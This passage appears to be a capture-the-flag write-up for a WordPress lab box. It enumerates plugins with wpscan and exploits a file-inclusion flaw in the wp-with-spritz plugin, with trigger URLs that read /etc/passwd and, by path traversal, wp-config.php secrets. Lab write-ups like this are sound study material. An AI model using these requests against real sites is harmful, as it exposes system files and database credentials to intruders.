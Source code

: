  We see this webpage is powered with Wordpress
 ![Pasted image 20210714031839.png](/assets/Pasted%20image%2020210714031839.png)
 
 We scan with `wpscan`
 ```bash
wpscan --url http://monitors.htb -e ap,t,u
```
1. **-e**: enumerate
	* **ap**: All plugins
	* **t**: themes
	* **u**: user

We see there is a plugin used:
![Pasted image 20210714191859.png](/assets/Pasted%20image%2020210714191859.png)

Let's see if there is an exploit in exploitDB.
We find this exploit of [Remote File Inclusion](https://www.exploit-db.com/exploits/44544)
We can trigger it with
```php
http://monitors.htb/wp-content/plugins/wp-with-spritz/wp.spritz.content.filter.php?url=<URL>
```
Let's read `/etc/passwd`
![Pasted image 20210714195148.png](/assets/Pasted%20image%2020210714195148.png)

So there is a user Marcus

Now let's read the `wp-config.php` file to get some secrets
```
http://monitors.htb/wp-content/plugins/wp-with-spritz/wp.spritz.content.filter.php?url=../../../wp-config.php
```

We see this
![Pasted image 20210714195535.png](/assets/Pasted%20image%2020210714195535.png)
Let's check the source code: